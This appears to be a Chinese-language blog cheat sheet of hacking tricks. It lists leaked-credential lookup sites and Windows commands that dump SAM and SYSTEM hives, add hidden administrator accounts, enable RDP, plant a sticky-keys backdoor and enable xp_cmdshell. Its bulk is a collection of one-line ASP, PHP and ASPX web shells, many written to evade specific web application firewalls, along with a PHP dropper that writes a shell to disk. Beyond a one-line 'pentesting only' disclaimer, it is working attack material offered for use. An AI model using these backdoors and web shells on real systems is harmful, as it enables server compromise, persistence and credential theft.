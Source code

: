 ```yaml
---
title: 那些Hack神器及奇技淫巧
date: 2016-09-11 23:07:28
permalink: hacktool
tags: Hack
categories: Hack

---
```

# 简介
这里会总结一些Hack经验，都是我日常使用的，会长期更新，渗透测试专用，请勿挪作非法用途。

# 那些网站
## 社工库

### 国内

http://www.findmima.com/

http://www.wghostk.com/so/

http://p.08lt.com

http://www.144118.com/

### 国际

https://haveibeenpwned.com/

https://leakbase.pw/

## C段
http://www.144118.com/

## whois查询
http://whois.domaintools.com/

## 历史页面

# 那些实用命令
## reg导出sam
reg save hklm\sam sam.hive

reg save hklm\system system.hive

reg save hklm\security security.hive

## Windows新建用户
net user admin$ admin /add

net localgroup administrators admin$ /add

net user Guest 1234

net user Guest /active:yes

net localgroup administrators Guest /add

## 打开3389(2003,xp)
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

## sethc后门
Copy C:\windows\explorer.exe C:\Windows\System32\sethc.exe /y

## mssql xpcmdshell报错
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;

# 那些一句话

## asp一句话木马
```
<%eval request("x")%>
```

## php一句话木马
```
<?php eval($_POST[g]);?>
```

## aspx一句话
```
<%@ Page Language="Jscript"%><%eval(Request.Item["x"],"unsafe");%>
```

## 数据库加密一句话(密码a)
```
┼攠數畣整爠煥敵瑳∨≡┩愾
```

## 网站配置、版权信息专用一句话
```
"%><%Eval Request(x)%>
```

## 一句话再过护卫神
```
<%Y=request("x")%> <%execute(Y)%>
```

## 过拦截一句话木马
```
<% eXEcGlOBaL ReQuEsT("x") %>
```

## asp闭合型一句话 
```
%><%eval request("0o1Znz1ow")%><%
```

## 能过安全狗的解析格式
```
;hfdjf.;dfd.;dfdfdfd.asp;sdsd.jpg
```

## 突破安全狗的一句话
```
<%Y=request("x")%> <%eval(Y)%>
```

## elong过安全狗的php一句话
```
<?php  $a = "a"."s"."s"."e"."r"."t";  $a($_POST[cc]);  ?>
```

## 后台常用写入php一句话（密码x）
```
<? 
 $fp = @fopen("c.php", 'a'); 
 @fwrite($fp, '<'.'?php'."\r\n\r\n".'eval($_POST[x])'."\r\n\r\n?".">\r\n"); 
 @fclose($fp); 
 ?>
```
 
## 高强度php一句话
```
<?php substr(md5($_REQUEST['heroes']),28)=='acd0'&&eval($_REQUEST['c']);?>
```

## 新型变异PHP一句话(密码b4dboy)
```
($b4dboy = $_POST['b4dboy']) && @preg_replace(‘/ad/e’,’@’.str_rot13(‘riny’).’($b4dboy)’, ‘add’);
```

## 突破安全狗的aspx一句话
```
<%@ Page Language="C#" ValidateRequest="false" %>
<%try{ System.Reflection.Assembly.Load(Request.BinaryRead(int.Parse(Request.Cookies["你的密码"].Value))).CreateInstance("c", true, System.Reflection.BindingFlags.Default, null, new object[] { this }, null, null); } catch { }%>
```

## 突破护卫神，保护盾一句话
```
<?php $a = str_replace(x,"","axsxxsxexrxxt");
$a($_POST["test"]); ?>
```

## PHP高强度一句话：
```
<?php substr(md5($_REQUEST['x']),28)=='acd0'&&eval($_REQUEST['c']);?>  
```

菜刀连接：``/x.php?x=lostwolf``  脚本类型：php  密码：c
```
<?php assert($_REQUEST["c"]);?>
```

## aspx过狗
```
<%@ Page Language="Jscript"%><%var name:String=Request.Item["cmd"];Response.Write(eval(name,"unsafe"));%>
```

# 那些神器
* Sqlmap

